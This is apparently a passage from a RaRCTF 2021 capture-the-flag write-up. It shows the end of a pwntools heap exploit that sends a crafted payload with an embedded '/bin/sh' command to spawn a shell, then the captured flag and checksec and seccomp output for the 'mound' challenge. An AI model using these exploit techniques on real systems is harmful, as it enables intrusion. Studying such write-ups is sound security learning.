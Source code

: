 ```python
r.sendlineafter('Which animal? ', '1')
r.sendlineafter('> ', '1')

# exploit
r.sendlineafter('> ', '3')
r.sendlineafter('> ', '2')
r.sendlineafter('What will you name your new animal? ', 'fuck')
r.sendlineafter('> ', '2')
r.sendlineafter('Which animal? ', '0')
r.sendlineafter('> ', '3')
input('3')
pl = b"\xaa"*(0x4 + 0x10) + p64(0) + p64(0x41) + p64(0x404d28) + \
    b"a bb;/bin/sh;".ljust(0x10, b'\x00') + p32(0x08001000)
r.sendline(pl)

# r.sendlineafter('> ', '4')
# r.sendlineafter('> ', '2')
# r.sendlineafter('Which animal? ', '1')
# r.sendlineafter('> ', '4')

r.interactive()
```

`rarctf{C0w_s4y_m00_p1g_s4y_01nk_fl4g_s4y-251e363a}`



### mound

```
// file
./mound: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0fa9d61b52907e22e8615b2ef7bfefc7e0fe6eb7, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/rarctf_2021/Mound/mound/mound'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

seccomp:

```
$ seccomp-tools dump ./mound     
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0c 0xc000003e  if (A != ARCH_X86_64) goto 0014
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x0a 0x00 0x40000000  if (A >= 0x40000000) goto 0014
 0004: 0x15 0x09 0x00 0x0000003b  if (A == execve) goto 0014
 0005: 0x15 0x08 0x00 0x00000142  if (A == execveat) goto 0014
 0006: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0014
 0007: 0x15 0x06 0x00 0x00000003  if (A == close) goto 0014
 0008: 0x15 0x05 0x00 0x00000055  if (A == creat) goto 0014
 0009: 0x15 0x04 0x00 0x00000086  if (A == uselib) goto 0014
 0010: 0x15 0x03 0x00 0x00000039  if (A == fork) goto 0014
 0011: 0x15 0x02 0x00 0x0000003a  if (A == vfork) goto 0014
 0012: 0x15 0x01 0x00 0x00000038  if (A == clone) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```
